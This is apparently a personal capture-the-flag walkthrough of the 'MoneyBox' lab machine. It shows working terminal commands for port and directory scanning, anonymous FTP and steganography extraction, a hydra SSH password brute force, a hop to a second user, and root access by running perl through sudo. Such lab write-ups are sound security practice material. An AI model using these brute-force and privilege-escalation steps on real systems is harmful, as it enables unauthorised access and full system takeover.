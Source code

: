 // I started by enumerating the machine
```
┌──(root㉿kali)-[/home/astra]
└─# nmap -p- --min-rate 10000 -Pn -sV 192.168.197.230

Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-21 10:52 EST
Nmap scan report for 192.168.197.230
Host is up (0.14s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.96 seconds
```
// Nothing to see... So I go to the webpage, checked for hidden stuff on the source code, but nothing.

```
<html>
<head><title>MoneyBox</title></head>
<body>
    <h1><big>Hai Everyone......!</big></h1>
    <h2>Welcome To MoneyBox CTF</h2>
    <p><pre>
  __  __                        ____            
 |  \/  |                      |  _ \           
 | \  / | ___  _ __   ___ _   _| |_) | _____  __
 | |\/| |/ _ \| '_ \ / _ \ | | |  _ < / _ \ \/ /
 | |  | | (_) | | | |  __/ |_| | |_) | (_) >  < 
 |_|  |_|\___/|_| |_|\___|\__, |____/ \___/_/\_\
                           __/ |                
                          |___/                 </p><br>
    <p><b>it's a very simple Box.so don't overthink</b></p>
</body>
</html>
```

// So I started scanning for hidden directories or files

```
┌──(root㉿kali)-[/home/astra]
└─# gobuster dir -u http://192.168.197.230/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 150

===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.197.230/
[+] Method:                  GET
[+] Threads:                 150
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.4
[+] Timeout:                 10s
===============================================================
2023/02/21 10:55:51 Starting gobuster in directory enumeration mode
===============================================================
/blogs                (Status: 301) [Size: 318] [--> http://192.168.197.230/blogs/]
/server-status        (Status: 403) [Size: 280]
Progress: 220560 / 220561 (100.00%)
===============================================================
2023/02/21 10:59:20 Finished
===============================================================
```

// I found this directory called "blogs" I got to it and I found something interesting in the source code
```
<html>
<head><title>MoneyBox</title></head>
<body>
    <h1>I'm T0m-H4ck3r</h1><br>
        <p>I Already Hacked This Box and Informed.But They didn't Do any Security configuration</p>
        <p>If You Want Hint For Next Step......?<p>
</body>
</html>
```


<!--the hint is the another secret directory is S3cr3t-T3xt-->

// So, I go to http://192.168.197.230/S3cr3t-T3xt/ and found this on the source code
```
<html>
<head><title>MoneyBox</title></head>
<body>
    <h1>There is Nothing In this Page.........</h1>
</body>
</html>

<!..Secret Key 3xtr4ctd4t4 >
```
// I thought this maybe an password "extractdata" so I tried to connect to ftp, for my surprise it had an image that I had missed on, I download it and I run steghide command to see if it has anything, using the password "extractdata"
```
┌──(root㉿kali)-[/home/astra]
└─# ftp 192.168.197.230

Connected to 192.168.197.230.
220 (vsFTPd 3.0.3)
Name (192.168.197.230:astra): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||56601|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0         1093656 Feb 26  2021 trytofind.jpg
226 Directory send OK.
```
// Here I run the command "get" to download the image on my machine on the current directory
ftp> get trytofind.jpg 
```
local: trytofind.jpg remote: trytofind.jpg
229 Entering Extended Passive Mode (|||48069|)
150 Opening BINARY mode data connection for trytofind.jpg (1093656 bytes).
100% |***********************************************************************************************************|  1068 KiB  237.53 KiB/s    00:00 ETA
226 Transfer complete.
1093656 bytes received in 00:04 (230.84 KiB/s)
ftp> exit
221 Goodbye.
                                                                                                                                                                       
┌──(root㉿kali)-[/home/astra]
└─# steghide --extract -sf trytofind.jpg
Enter passphrase: 
wrote extracted data to "data.txt".
                                                                                                                                                        
┌──(root㉿kali)-[/home/astra]
└─# cat data.txt   
Hello.....  renu

      I tell you something Important.Your Password is too Week So Change Your Password
Don't Underestimate it.......
```
// Now I got a user called "renu" and the file tells me the password is too week, so I will use hydra to try and crack the ssh password
```
┌──(root㉿kali)-[/home/astra]
└─# hydra -l renu -P rockyou.txt -f 192.168.197.230 ssh -I

Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-02-21 11:11:27
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.197.230:22/
[22][ssh] host: 192.168.197.230   login: renu   password: 987654321
[STATUS] attack finished for 192.168.197.230 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-02-21 11:12:24
```                                                                                           
// Found the password "987654321" now I will connect to the ssh and get the first flag
```
┌──(root㉿kali)-[/home/astra]
└─# ssh -l renu 192.168.197.230         

renu@192.168.197.230's password: 
Linux MoneyBox 4.19.0-22-amd64 #1 SMP Debian 4.19.260-1 (2022-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Sep 23 10:00:13 2022
renu@MoneyBox:~$ ls
ftp  local.txt
renu@MoneyBox:~$ cat local.txt 
ee278fead71bfc63679ae9a112139df0
renu@MoneyBox:~$ 
```
// Now we got the first flag ! I go to /home/ and find an user called "lily" and I also got the authorized_key from renu, meaning he can connect to ssh without password
```
renu@MoneyBox:/home$ ls

lily  renu
renu@MoneyBox:/home$ cd lily
renu@MoneyBox:/home/lily$ ls
renu@MoneyBox:/home/lily$ ls -la
total 32
drwxr-xr-x 4 lily lily 4096 Oct 11 10:52 .
drwxr-xr-x 4 root root 4096 Feb 26  2021 ..
-rw------- 1 lily lily  985 Feb 26  2021 .bash_history
-rw-r--r-- 1 lily lily  220 Feb 25  2021 .bash_logout
-rw-r--r-- 1 lily lily 3526 Feb 25  2021 .bashrc
drwxr-xr-x 3 lily lily 4096 Feb 25  2021 .local
-rw-r--r-- 1 lily lily  807 Feb 25  2021 .profile
drwxr-xr-x 2 lily lily 4096 Feb 26  2021 .ssh

renu@MoneyBox:/home/lily$ cd .ssh
renu@MoneyBox:/home/lily/.ssh$ cat authorized_keys 

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDRIE9tEEbTL0A+7n+od9tCjASYAWY0XBqcqzyqb2qsNsJnBm8cBMCBNSktugtos9HY9hzSInkOzDn3RitZJXuemXCasOsM6gBctu5GDuL882dFgz962O9TvdF7JJm82eIiVrsS8YCVQq43migWs6HXJu+BNrVbcf+xq36biziQaVBy+vGbiCPpN0JTrtG449NdNZcl0FDmlm2Y6nlH42zM5hCC0HQJiBymc/I37G09VtUsaCpjiKaxZanglyb2+WLSxmJfr+EhGnWOpQv91hexXd7IdlK6hhUOff5yNxlvIVzG2VEbugtJXukMSLWk2FhnEdDLqCCHXY+1V+XEB9F3 renu@debian
renu@MoneyBox:/home/lily/.ssh$ 
```
// Now I use ssh lily@192.168.197.230, and got into lily user 
```
renu@MoneyBox:~$ ssh lily@192.168.197.230

The authenticity of host '192.168.197.230 (192.168.197.230)' can't be established.
ECDSA key fingerprint is SHA256:8GzSoXjLv35yJ7cQf1EE0rFBb9kLK/K1hAjzK/IXk8I.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.197.230' (ECDSA) to the list of known hosts.
Linux MoneyBox 4.19.0-22-amd64 #1 SMP Debian 4.19.260-1 (2022-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Feb 26 09:07:47 2021 from 192.168.43.80

lily@MoneyBox:~$ 
```
// I do an sudo -l and I can see that lily can run perl commands as root without asking for password, so I do an simple perl command and got root access. 
```
lily@MoneyBox:/$ sudo perl -e 'exec "/bin/bash";'
root@MoneyBox:/# cd root
root@MoneyBox:~# ls
proof.txt
root@MoneyBox:~# cat proof.txt 
bf3e7ad76f3dfd2cd63774da95695246
root@MoneyBox:~# gg
```



